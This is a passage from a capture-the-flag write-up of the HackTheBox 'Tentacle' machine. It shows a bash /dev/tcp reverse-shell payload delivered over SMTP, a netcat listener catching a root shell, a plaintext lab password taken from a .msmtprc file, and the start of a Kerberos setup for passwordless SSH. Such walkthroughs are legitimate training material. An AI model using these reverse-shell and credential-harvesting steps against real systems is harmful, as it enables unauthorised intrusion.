 ```console
#
#
#
#
#
#

0<&95-;exec 95<>/dev/tcp/10.10.14.14/4242;sh <&95 >&95 2>&95
.
250 2.0.0 e3a1cfa7 Message accepted for delivery
quit
221 2.0.0 Bye
```

And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from realcorp.htb [10.10.10.224] 53308
whoami
root
```

By enumerating on ```/home/j.nakazawa``` we can see hidden file called ```.msmtprc```:
```
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```

We know also kerberos also running on machine from previous ```nmap``` running, Let's use krb ticket to connect ssh without password by the following [https://kb.iu.edu/d/batb](https://kb.iu.edu/d/batb):
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ sudo apt-get install krb5-user
....
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ cat /etc/krb5.conf


[libdefaults]
	default_realm = REALCORP.HTB
	dns_lookup_realm = true
	dns_lookup_kdc = true
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true
```